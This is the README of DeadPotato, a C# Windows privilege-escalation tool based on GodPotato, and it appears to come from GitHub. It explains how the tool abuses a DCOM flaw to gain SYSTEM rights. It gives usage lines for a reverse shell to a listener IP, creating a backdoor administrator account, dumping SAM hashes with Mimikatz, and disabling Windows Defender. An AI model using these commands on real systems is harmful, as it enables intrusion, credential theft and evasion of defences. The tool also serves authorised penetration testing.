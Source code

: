 <p align="center">
  <banner><image href="title-banner" src="https://github.com/user-attachments/assets/460525cb-1871-4608-a6e5-1c5da07f63aa" /></image></banner><br>
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/DeadPotato?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a>

************************************************************

<h3 align="center">🚨 Hashdump & SharpHound Modules Now Available! 🚨</h3>
<h4 align="center"><i>❗ Usage of this program under an unauthorized context is strictly forbidden. The author(s) of DeadPotato do not take any responsibility for any harm caused to systems. Use with caution. ❗</i></h4>

************************************************************

```

C:\Users\lypd0> GodPotato.exe
  
    ⠀⢀⣠⣤⣤⣄⡀⠀    _           _
    ⣴⣿⣿⣿⣿⣿⣿⣦   | \ _  _  _||_) _ _|_ _ _|_ _
    ⣿⣿⣿⣿⣿⣿⣿⣿   |_/(/_(_|(_||  (_) |_(_| |_(_)
    ⣇⠈⠉⡿⢿⠉⠁⢸   Open Source @ github.com/lypd0
    ⠙⠛⢻⣷⣾⡟⠛⠋         -= Version: 1.2 =-
        ⠈⠁⠀⠀⠀

_,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,__,.-'~'-.,_

 (*) Example Usage(s):

   -={ deadpotato.exe -MODULE [ARGUMENTS] }=-

   -> deadpotato.exe -cmd "whoami"
   -> deadpotato.exe -rev 192.168.10.30:9001
   -> deadpotato.exe -exe paylod.exe
   -> deadpotato.exe -newadmin lypd0:DeadPotatoRocks1
   -> deadpotato.exe -shell
   -> deadpotato.exe -mimi sam
   -> deadpotato.exe -defender off
   -> deadpotato.exe -sharphound

 (*) Available Modules:

   - cmd: Execute a command as NT AUTHORITY\SYSTEM.
   - rev: Attempts to establish a reverse shell connection to the provided host
   - exe: Execute a program with NT AUTHORITY\SYSTEM privileges (Does not support interactivity).
   - newadmin: Create a new administrator user on the local system.
   - shell: Manages to achieve a semi-interactive shell (NOTE: Very bad OpSec!)
   - mimi: Attempts to dump SAM/LSA/SECRETS with Mimikatz. (NOTE: This will write mimikatz to disk!)
   - defender: Either enables or disables Windows Defender's real-time protection.
   - sharphound: Attempts to collect domain data for BloodHound.

```

************************************************************

<h2 align="center"> ❔ Quick Start - How To Use  ❔ </h2>
<p><i><strong>The `SeImpersonatePrivilege` right is enabled in your context? With <i><strong>DeadPotato</strong></i>, it is possible to achieve maximum privileges on the local system.<br><br>
The tool will attempt to start an elevated process running in the context of the `NT AUTHORITY\SYSTEM` user by abusing the DCOM's RPCSS flaw in handling OXIDs, allowing unrestricted access over the machine for critical operations to be freely performed.<br><br>
⚠️ In the following case, the `-cmd` module is used. Many modules are available for use, such as the `-rev IP:PORT` for spawning an elevated reverse shell, `-newadmin usr:pass` for creating a new local Administrator user for persistence, or `-mimi sam` for dumping SAM hashes.</strong></i></p></br>

************************************************************
<image align=*center*> 
<a href="GQJhLcT9IHA" src=*https://github.com/user-attachments/assets/b5f71f4a-f8bc-4099-81c5-54bcece7abb6* /></a>
<h3 align="center"> Verify SeImpersonatePrivilege rights </h3>
<p><i>In order to use DeadPotato, the SeImpersonatePrivilege right must be enabled in the current context. In order to verify this, the `whoami /priv` command can be executed.</br>
<p align="center"> If there privilege is disabled, exploitation is not possible in the current context.</i></p></br>

************************************************************

```
   C:\Users\lypd0> whoami /priv

    <...SNIP...>
    SeImpersonatePrivilege    Impersonate a client after authentication     Enabled
    <...SNIP...>

```
</br>

************************************************************

<h2 align="center">🐚 Getting an Elevated Reverse Shell </h2>

![cmd_XQASCL7Lz6](https://github.com/user-attachments/assets/201fa7cb-4253-47e4-8beb-1ae781fc481c)

************************************************************

<h3 align="center"> 🏅 Credits </h3>
<p align="center"><i>This Project "DeadPotato" is a tool built on the source code of the masterpiece "GodPotato" by BeichenDream.</br>
If you like this project, make sure to also go show support to [the original project : </br> 
https://github.com/BeichenDream/GodPotato</i></br>
<p align="center"> 
<strong>
 💥 BeichenDream, </br>
 💥 Benjamin DELPY `gentilkiwi`, </br>
 💥 BloodHound Developers. </br></strong>
</p>

************************************************************

<h4 align="center"> License </h4>
<h5 align="center">
 This project is licensed under the Apache 2.0 License : </br></br>          
 https://choosealicense.com/licenses/apache-2.0 </br></br> 
 Please review the LICENSE file for more details. </br></h5>
   
************************************************************

<h4 align="center">
<image href="Star History Chart" src="https://api.star-history.com/svg?repos=lypd0/DeadPotato&type=Date" /image></h4>

************************************************************
